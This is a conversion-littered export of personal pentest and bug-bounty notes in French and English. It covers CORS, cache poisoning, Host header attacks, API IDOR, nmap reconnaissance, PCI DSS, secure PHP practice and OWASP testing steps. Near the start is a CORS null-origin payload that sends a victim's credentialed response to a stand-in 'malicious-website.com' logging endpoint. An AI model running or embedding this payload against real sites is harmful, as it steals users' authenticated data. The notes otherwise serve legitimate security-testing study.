<p id="gdcalert410" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image410.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert411">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Send the header “Origin : null”  and see if the vulnerable application whitelists the null origin. If the target accepts a null origin, you can use tricks to generate this header in the victim with your payload.</strong> 
<ul>
 
<li><strong>example of trick:</strong>
<strong><code>&lt;iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,&lt;script></code></strong>
<strong><code>var req = new XMLHttpRequest();</code></strong>
<strong><code>req.onload = reqListener;</code></strong>
<strong><code>req.open('get','vulnerable-website.com/sensitive-victim-data',true);</code></strong>
<strong><code>req.withCredentials = true;</code></strong>
<strong><code>req.send();</code></strong>
<strong><code>function reqListener() {</code></strong>
<strong><code>location='malicious-website.com/log?key='+this.responseText;</code></strong>
<strong><code>};</code></strong>
<strong><code>&lt;/script>">&lt;/iframe></code></strong> 
</ul> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Advance Regexp bypasses</strong>
<strong>Most of the regex used to identify the domain inside the string will focus on alphanumeric ASCII characters and “.-”. But some browser support other characters in a domain name ( see the image below ) :</strong> 
<ul>
 
<li>

<p>


<p id="gdcalert411" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image411.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert412">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Attack from an XSS inside a whitelisted subdomain</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Try to add a callback parameter in the request. Maybe the page was prepared to send the data as JSONP. ( Content-Type: application/javascript )</strong>


<p id="gdcalert412" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image412.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert413">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong><a href="https://github.com/chenjj/CORScanner">https://github.com/chenjj/CORScanner</a> :</strong> 
<ul>
 
<li><strong>cors_scan.py </strong>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
</table>


* BB - Web Cache Poisoning :

<table>
  <tr>
   <td>
<ul>

<li><strong>Pour Supprimer une page du cache : </strong> 
<ul>
 
<li><strong>Ajouter le header “Cache-control Ou Pragma” avec comme valeur "non-cache" à la requête envoyée.</strong>
        <strong>Exemple :</strong> 
<ul>
 
<li>

<p id="gdcalert413" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image413.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert414">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


</li> 
</ul>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
</table>


* BB - HTTP response header injection :

<table>
  <tr>
   <td>
<ul>

<li><strong>Tenter une attaque de type HTTP Response Splitting into XSS sur la 2ème réponse.</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
</table>


* BB - HTTP Host header attacks :

<table>
  <tr>
   <td>
<ul>

<li><strong>Try to supply an arbitrary, unrecognized domain name via the Host header to see what happens.</strong>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Injection in port :</strong>

<p id="gdcalert414" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image414.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert415">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Classic techniques to bypass whitelist site :</strong>
    <strong>Example :</strong> 
<ul>
 
<li>

<p id="gdcalert415" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image415.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert416">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Inject duplicate Host headers :</strong> 
<ul>
 
<li>

<p id="gdcalert416" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image416.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert417">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


 
<li>

<p id="gdcalert417" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image417.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert418">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Use absolute URL on HTTPs syntax protocol</strong>
    <strong>Example :</strong> 
<ul>
 
<li><strong>GET [ENTIRE_URL] HTTP/1.1 </strong>
<p>

        <strong>HOST : [ DOMAIN  / IP /  PAYLOAD ]</strong>
<p>

        <strong>Instead of </strong>
<ul>

<li><strong>GET /[FILE] HTTP/1.1</strong>
<p>

        <strong>HOST : [ DOMAIN  / IP /  PAYLOAD ]</strong>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
</table>


* BB - API :

<table>
  <tr>
   <td>
<ul>

<li><strong>Search for API patterns inside the api and try to use it to discover more.</strong>
    <strong>If you find  /api/albums/&lt;album_id>/photos/&lt;photo_id> you could try also things like  /api/posts/&lt;post_id>/comment/. Use some fuzzer to discover this new endpoints.</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Something like the following example might get you access to another user’s photo album:</strong>
    <strong>/api/MyPictureList → /api/MyPictureList?user_id=&lt;other_user_id></strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>

<p id="gdcalert418" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image418.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert419">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


   </td>
  </tr>
  <tr>
   <td>

<p id="gdcalert419" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image419.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert420">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>HTTP request method change (GET, POST, PUT, DELETE, PATCH, INVENTED)</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>

<p id="gdcalert420" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image420.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert421">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>

<p id="gdcalert421" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image421.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert422">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>

<p id="gdcalert422" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image422.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert423">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>https://github.com/shieldfy/API-Security-Checklist</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
    <strong>-</strong>
   </td>
  </tr>
  <tr>
   <td>
    <strong>-</strong>
   </td>
  </tr>
  <tr>
   <td>
    <strong>-</strong>
   </td>
  </tr>
  <tr>
   <td>
    <strong>-</strong>
   </td>
  </tr>
  <tr>
   <td>
    <strong>-</strong>
   </td>
  </tr>
  <tr>
   <td>
    <strong>-</strong>
   </td>
  </tr>
  <tr>
   <td>
    <strong>-</strong>
   </td>
  </tr>
  <tr>
   <td>
    <strong>-</strong>
   </td>
  </tr>
  <tr>
   <td>
    <strong>-</strong>
   </td>
  </tr>
  <tr>
   <td>
    <strong>-</strong>
   </td>
  </tr>
</table>


* BB - Information Disclosure/gathering :

<table>
  <tr>
   <td>
<ul>

<li><strong>Nmap :</strong>

<table>
  <tr>
   <td>
<strong>nmap 123.123.123.1/24</strong>
</li>
</ul>
   </td>
   <td><strong>plage d’adresse</strong>
   </td>
  </tr>
  <tr>
   <td><strong>nmap -sn 123.123.123.1</strong>
   </td>
   <td><strong>If you just want to find which hosts are alive</strong>
   </td>
  </tr>
  <tr>
   <td><strong>nmap -Pn host</strong>
   </td>
   <td><strong>Sometimes, hosts don’t respond to ping. To skip ping checks and just scan the host ports anyway, use -Pn.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>nmap -iL ./hosts.txt</strong>
   </td>
   <td><strong>To scan a list of hosts from a file</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-sS</strong>
   </td>
   <td><strong>TCP SYN scan. This is the default scan type.  Other scan types can be useful for stealth or probing firewalls but may sacrifice accuracy or speed</strong>
   </td>
  </tr>
  <tr>
   <td><strong>-sU</strong>
   </td>
   <td><strong>UDP ports scan</strong>
   </td>
  </tr>
  <tr>
   <td><strong>nmap -p 1–65535 host</strong>
   </td>
   <td><strong>You can specify which ports to scan with</strong>
   </td>
  </tr>
  <tr>
   <td><strong>nmap -p 23,23,25,110,80–90,U:53,1000–2000</strong>
   </td>
   <td><strong>Pour attaquer EDRA cette dinde</strong>
   </td>
  </tr>
  <tr>
   <td><strong>nmap -sV — version-intensity 9</strong>
   </td>
   <td><strong>When Nmap finds an open port, it can probe further to discover what service it is running if you specify -sV. You can set how intense you want the probes to be from 0 (light probe, fast but not accurate) to 9 (try all probes, slow but accurate)</strong>
   </td>
  </tr>
  <tr>
   <td><strong>nmap -O host</strong>
   </td>
   <td><strong>operating system guessing</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td><strong>You can also adjust the speed that nmap scans at. using -T&lt;0–5></strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


   </td>
  </tr>
  <tr>
   <td>


* **Burp Crawler**
   </td>
  </tr>
  <tr>
   <td>
* **ffuf**
    * 
   </td>
  </tr>
  <tr>
   <td>
* 
   </td>
  </tr>
  <tr>
   <td>
* 
   </td>
  </tr>
  <tr>
   <td>
* 
   </td>
  </tr>
  <tr>
   <td>
* 
   </td>
  </tr>
  <tr>
   <td>
* 
   </td>
  </tr>
</table>


* BB - Business logic vulnerabilities :

<table>
  <tr>
   <td>
<ul>

<li><strong>Valeurs négatives</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Changer le type de la variable</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li><strong>Dépasser des limites sur les valeurs des variables</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
</table>


* BB - GraphQL :

<table>
  <tr>
   <td>
<ul>

<li><strong>Inject Introspection schéma</strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
</table>


* BB - APK :

<p id="gdcalert423" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image423.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert424">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* 
Non technique, normes, ...

## 
    PCI DSS


* **L’acronyme PCI DSS (Payment Card Industry Data Security Standard) désigne les normes de sécurité des données applicables à l’industrie des cartes de paiement. Élaborée par le conseil des normes de sécurité PCI, la norme PCI DSS vise à réduire la fraude en ligne. Toute organisation qui traite les données de titulaires de cartes de paiement est tenue de s’y conformer. La conformité est validée par un évaluateur de sécurité homologué, un évaluateur de la sécurité en interne, ou par le biais d’un questionnaire d’auto-évaluation pour les entreprises qui traitent de plus petits volumes de données de cartes bancaires.**

    **La norme PCI DSS est une norme mondiale qui n’est pas obligatoire au regard de la loi aux États-Unis — la réglementation applicable aux données des titulaires de cartes diffère d’un état à l’autre, et la non-conformité se traduit le plus souvent par de lourdes amendes pour l’entreprise concernée.**


    **Pourquoi la norme PCI DSS est-elle si importante ?**


    **En appliquant la norme PCI DSS, votre entreprise indique prendre les mesures appropriées pour protéger les données des titulaires de cartes contre le vol sur Internet et toute utilisation frauduleuse. L’impact est aussi fort pour l’entreprise que pour ses clients, car les conséquences d’une cyberattaque peuvent se traduire par une perte de revenus, de clients et de confiance, sans parler du préjudice pour la marque.**

* **L’acronyme PSSI (Politique de sécurité du système d'information) définit l’intégralité de la stratégie de sécurité informatique de l’entreprise. Elle se traduit par la réalisation d’un document qui regroupe l’ensemble des règles de sécurité à adopter ainsi que le plan d’actions ayant pour objectif de maintenir le niveau de sécurité de l’information dans l’organisme.**

    **La PSSI, élaborée « sur-mesure » pour chaque établissement, décrit l’ensemble des enjeux, des besoins, des contraintes, ainsi que des règles à adopter propres à chaque structure. Elle doit être validée par la direction et prise en compte par chaque collaborateur.**

* Secure PHP Software Guideline
* Dependency Management
    * In short: Use Composer.
        * If you aren't using Composer to manage your dependencies, you will eventually (hopefully later but most likely sooner) end up in a situation where one of the software libraries you depend on becomes severely outdated.
* Recommended Packages

        Regardless of what you're building, you will almost certainly benefit from these dependencies. This is in addition to what most PHP developers recommend :


<table>
  <tr>
   <td>
<ul>

<li>roave/security-advisories 
<ul>
 
<li>ensure that your project doesn't depend on any known-vulnerable packages.
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>vimeo/psalm 
<ul>
 
<li>Psalm is a static analysis tool that helps identify possible bugs in your code. Regardless of which static analysis tool you use, we recommend you bake it into your Continuous Integration workflow (if applicable) so that it is run after every code change.
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
</table>


## 
    Subresource Integrity

Subresource integrity (SRI) allows you to pin a hash of the contents of the file you expect the CDN to serve. SRI as currently implemented only allows the use of secure cryptographic hash functions, which means that it's infeasible for an attacker to generate a malicious version of the same resources that produce the same hash as the original file.

Example :


<p id="gdcalert424" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image424.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert425">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


## Document Relationships


<p id="gdcalert425" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image425.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert426">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


## Database Interaction

If you're writing SQL queries yourself, make sure that you're using prepared statements.

If you're writing SQL queries yourself, make sure that you're using prepared statements, and that any information provided by the network or filesystem is passed as a parameter rather than concatenated into the query string.

Furthermore, make sure you're not using emulated prepared statements.


<p id="gdcalert426" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image426.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert427">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


##                 File Uploads


* 
Security Web Testing Guide
Based on : [https://owasp.org/www-project-web-security-testing-guide/v42/](https://owasp.org/www-project-web-security-testing-guide/v42/)


## 
Information Gathering


<table>
  <tr>
   <td>
<ul>

<li>General

<li>Utiliser plusieurs navigateurs pour chercher des infos sur la cible en écrivant juste l’URL du site au minimum: 
<ul>
 
<li>Google, Bing(Support SO), DuckDuckGo(Support SO), Startpage (Support SO), Wayback Machine
 
<li>Utiliser les SO 
<ul>
 
<li>Looker les fichiers suivants pour trouver un maximum de page et d’info sur un site :  
<ul>
  
<li>robots.txt
  
<li>sitemap.xml
  
<li>human.txt
  
<li>security.txt
  
<li>.well-known/
  
<li>sitemap.xml
<ul>

<li>Banner grabbing : by eliciting responses to (malformed) requests, and examining its response header to get information about the type of server. Often done by automatic tools ( Nikto, Nmap, netcraft). 
<ul>
 
<li>In cases where the server information is obscured, testers may guess the type of server based on the ordering of the header fields.
<ul>

<li>Examining error responses
<ul>

<li>Defining the version of the server and see if it’s up-to-date.
<ul>

<li>Look through all META tag to discover different pages
<ul>

<li>Use Netcraft tool
<ul>

<li>Dans le cas ou la target c’est juste une adresse IP et tu dois trouver des sites web venant de cette adresse : 
<ul>
 
<li>Cas 1) Differents sites venant d’URL differente (http://www.example.com/url1 http://www.example.com/url2 http://www.example.com/url3) => assez rare  
<ul>
  
<li>See if you can directory browsing
  
<li>If testers suspect the existence of such hidden applications on www.example.com they could search using the search operator and examine the result of a query for site: <a href="www.example.com">www.example.com</a>.
  
<li>Dictionary-style searching (or “intelligent guessing”) like mail or administrative interfaces, from a base URL could yield some results. Vulnerability scanners may help in this respect. 
<ul>
 
<li>Cas 2) Non-standard Ports  
<ul>
  
<li>A port scanner such as nmap (FUZZ) : nmap –Pn –sT –sV –p0-65535 192.168.1.100
  
<li> 
<ul>
 
<li>Cas 3) Virtual Hosts ( one IP => many DNS names)  
<ul>
  
<li>DNS Zone Transfers   
<ul>
   
<li>If a symbolic name is known for [IP] (let it be www.owasp.org),  its name servers can be determined by means of tools such as nslookup, host, or dig, by requesting DNS NS records : 
                    

<p id="gdcalert427" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image427.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert428">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p>

                    

<p id="gdcalert428" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image428.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert429">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


  
<ul>
  
<li>DNS Inverse Queries ( IP => domain)   
<ul>
   
<li>dig -x [IP]
   
<li>nslookup [IP]
<ul>

<li>https://hackertarget.com/reverse-ip-lookup/ => (very complex search database that has recorded the IP addresses of websites it has crawled)
<ul>

<li>Bing research : ip:”[IP]”  
<ul>
  
<li>Web-based DNS Searches   
<ul>
   
<li>https://searchdns.netcraft.com/?host  
<ul>
  
<li>Reverse-IP Services   
<ul>
   
<li>the testers query a web-based application instead of a name server.    
<ul>
    
<li>https://reverseip.domaintools.com/ (requires free membership)
    
<li>DNSstuff (multiple services available)
    
<li>Net Square (multiple queries on domains and IP addresses, requires installation)  
<ul>
  
<li>Googling dorking  
<ul>
  
<li>Digital Certificates   
<ul>
   
<li>If the server accepts connections over HTTPS, then the Common Name (CN) and Subject Alternate Name (SAN) on the certificate may contain one or more hostnames.
<p>

                The CN and SAN can be obtained by manually inspecting the certificate, or through other tools such as OpenSSL: 
<ul>
 
<li>openssl s_client -connect 93.184.216.34:443 &lt;/dev/null 2>/dev/null | openssl x509 -noout -text | grep -E 'DNS:|Subject:'
<ul>

<li>Search for comments (Sometimes, they forget about the comments and they leave them in production environments.)

<p>


<p id="gdcalert429" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image429.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert430">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<ul>

<li>review JS file (non library) (Look for values such as: API keys, internal IP addresses, sensitive routes, or credentials.)
<ul>

<li>Identifying Source Map Files : Testers can also find source map files by adding the “.map” extension after the extension of each external JavaScript file. Check source map files for any sensitive information that can help the attacker gain more insight about the application.
<ul>

<li>Use Attack Surface Detector (Burp suite Extension tool)  to investigates the source code and uncovers the endpoints of a web application
<ul>

<li>la plupart des éléments (presque tous) dans la catégorie **information disclosure** peuvent être effectué avec des tools
<ul>

<li>Looker le Header X-Powered-By ( ou autre dérivé comme X-Generator) pour trouver des frameworks ou applications utilisées
<ul>

<li>Looker le nom du cookie
<ul>

<li>Looker si il y a des commentaires qui peuvent nous indiquer des framework ou info laissées par les devs.
<ul>

<li>Chercher des fichiers liées à des frameworks (FUZZ) pour trouver leur présence
<ul>

<li>Looker l'extension des fichiers dans l’URL
<ul>

<li>Pour remédier à la découverte des frameworks utilisés d’un point de vue des Hackers, on essaye de tout cacher comme information. Mais c’est plus pour le freiner qu’un vrai moyen de sécurité.
<ul>

<li>Autour du serveur web, essayer de trouver tous les éléments connectés à lui (reverse proxy, base de données, …) pour mieux comprendre la cible
<ul>

<li>Outil de récup d’info : Whatweb : <em>./whatweb [URL]</em>
<ul>

<li>Use recon-ng (very cool tool for information gathering)
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Shodan 
<ul>
 
<li>
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
</table>


## 
Configuration and Deployment Management Testing


<table>
  <tr>
   <td>
<ul>

<li>
Review each version (if possible) of each element related to the server web (DB, proxy, …)
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Review if no default unsecure ( more generally unused) configuration component is present : 
<ul>
 
<li>Default files
 
<li>Default non-used configuration
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Various tools, documents, or checklists (found on the internet) can be used to give IT and security professionals a detailed assessment of target systems’ conformance to various configuration baselines or benchmarks.
<ul>

<li>Configuration Review in Gray-Box Testing common guidelines for application server : 
<ul>
 
<li>Only enable server modules that are needed for the application. 
<ul>
 
<li>Handle server errors (40x or 50x) for  with custom-made pages instead of with the default web server pages. Specifically, make sure that any application errors will not be returned to the end user and that no code is leaked through these errors since it will help an attacker.
        <a href="https://fr.wikipedia.org/wiki/Liste_des_codes_HTTP">https://fr.wikipedia.org/wiki/Liste_des_codes_HTTP</a> 
<ul>
 
<li>Make sure that the server software runs with minimized privileges in the operating system.
<ul>

<li>Make sure the server software properly logs both legitimate access and errors.
<ul>

<li>Make sure that the server is configured to properly handle overloads and prevent Denial of Service attacks. Ensure that the server has been performance-tuned properly.
<ul>

<li>Logging : 
<ul>
 
<li>Do the logs contain sensitive information? 
<ul>
 
<li>Are the logs stored in a dedicated server? 
<ul>
 
<li>Can log usage generate a Denial of Service condition? 
<ul>
 
<li>How are they rotated? Are logs kept for the sufficient time? 
<ul>
 
<li>How are logs reviewed? Can administrators use these reviews to detect targeted attacks? 
<ul>
 
<li>How are log backups preserved? 
<ul>
 
<li>Is the data being logged data validated (min/max length, chars etc) prior to being logged?
<ul>

<li>Some applications might, for example, use GET requests to forward form data which will be seen in the server logs. This means that server logs might contain sensitive information (such as usernames as passwords, or bank account details). This sensitive information can be misused by an attacker if they obtained the logs.
<ul>

<li>Also, in some jurisdictions, storing some sensitive information in log files, such as personal data, might oblige the enterprise to apply the data protection laws that they would apply to their back-end databases to log files too.
<ul>

<li>If the server is compromised its logs can be wiped out by the intruder to clean up all the traces of its attack and methods. So, it is wiser to keep logs in a separate location and not in the web server itself.
<ul>

<li>Logs can introduce a Denial of Service condition if they are not properly stored. Typically in UNIX systems logs will be located in /var (although some server installations might reside in /opt or /usr/local) and it is important to make sure that the directories in which logs are stored are in a separate partition.
<ul>

<li>Log statistics or analysis should not be generated, nor stored, in the same server that produces the logs. Otherwise, an attacker might, through a web server vulnerability or improper configuration, gain access to them
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>WSTG-CONF-03
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>
</li>
</ul>
   </td>
  </tr>
</table>


## 
Client-side Testing


<table>
  <tr>
   <td>
<ul>

<li>DOM XSS 
<ul>
 
<li>Test automatique :  
<ul>
  
<li>FindomXSS :

<table>
  <tr>
   <td>
./findom-xss.sh [URL]
</li>  
</ul>
</li>  
</ul>
</li>  
</ul>
   </td>
   <td>Search sink
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* DOM based XSS Finder (extension CHROME) (FUZZ)

                

